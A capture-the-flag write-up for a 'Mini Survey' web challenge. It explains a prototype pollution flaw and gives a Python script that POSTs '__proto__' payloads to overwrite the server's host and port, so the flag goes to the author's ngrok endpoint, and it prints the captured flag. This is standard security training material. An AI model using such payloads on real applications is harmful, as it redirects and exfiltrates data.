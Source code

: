 # Mini Survey

```
Please answer this survey for the better of all

- Minnesota Dept of Roads & Railways

Author: Vikaran

Link: http://mini-survey.web.nitectf.live

File: minisurvey.zip
```

## POC

When I examined the [serverComs.js](dist/serverComs.js) file, I identified the vulnerability as `Prototype Pollution`. The objective was to change the host and port, and then the flag would be sent to my ngrok.

![1](images/1.png)

#### I created the payload with Python; this was the script [solve.py](#solvepy)

After running the script, the flag was successfully sent to my ngrok.

![2](images/2.png)

## solve.py

```python
import requests

url = "http://mini-survey.web.nitectf.live"
ngrok_host = "0.tcp.ap.ngrok.io"
ngrok_port = "15927"

data = {
    "name": "__proto__",
    "city": "host",
    "pollutionRate": ngrok_host
}

requests.post(f"{url}/pollutionsurvey", data=data)

data = {
    "name": "__proto__",
    "city": "port",
    "pollutionRate": ngrok_port
}

requests.post(f"{url}/pollutionsurvey", data=data)
```

## Flag

`nite{pr0t0_p0llut3d_116a4601b79d6b8f}`
